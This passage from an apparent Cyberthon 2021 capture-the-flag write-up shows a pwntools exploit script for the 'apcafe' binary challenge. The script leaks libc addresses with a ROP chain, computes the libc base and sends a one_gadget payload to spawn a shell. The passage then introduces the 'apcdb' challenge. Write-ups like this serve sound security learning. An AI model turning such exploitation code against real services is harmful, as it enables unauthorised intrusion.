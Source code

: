 ```python
print(f"PUTS: {hex(puts_libc)}")
r.recvuntil("order?")
r.sendline(b"A"*10+b"\0"*8+p64(0x4015a3)+p64(binary.got["exit"])+p64(binary.symbols["puts"])+p64(binary.symbols["main"]))
r.recvuntil("...")
r.recvline()
exit_libc=u64(r.recvline()[-7:-1].ljust(8,b'\x00'))
print(f"EXIT: {hex(exit_libc)}")
# Same thing as above.

# It turns out there are 3 possible libc versions...
# TRY THEM ALL!!!!
# 9.0 is already there, failed.
# 9.2: db/local-a1ca4cd2d1df2fcd2c0f582665051c261d84c1d6.symbols
libc_base=puts_libc-0x875a0 
# Offset of puts() function in GOT table.
# Obtained from libc-database, you should check it out.
one_gadget=libc_base+0xe6c84
# Obtained from one-gadget. Check that out too.
r.sendline(b"A"*10+b"\0"*8+p64(0x4015a1)+p64(0)+p64(0)+p64(one_gadget))
r.interactive()
```

After getting **shell** we thus obtain:

### Flag!
`Cyberthon{th4t5_4_r34lly_l000ng_0rd3r_dud3_pl5_ch1ll}`

## apcdb
```
We've found a network service that seems to be posing as a fake directory of APOCALYPSE members. 
Although it doesn't seem to be hooked up to any actual database, it does look a tad vulnerable. 
Could u try to break in anyway? Who knows, access to this server might come in useful.
```

Being the only person to have solved this during the actual CTF, of course I must do a writeup on it uwu.

### Reconnaissance
We are once again presented with a 64-bit binary with the following function:
![](/assets/Images/Cyberthon-2021/apcdb_main.png)

Of course, not forgetting our checksec...
![](/assets/Images/Cyberthon-2021/apcdb_checksec.png)

### Vulnerability Analysis
"This is __real__ similar to that `apcafe` challenge", you say.

And you'd be right.
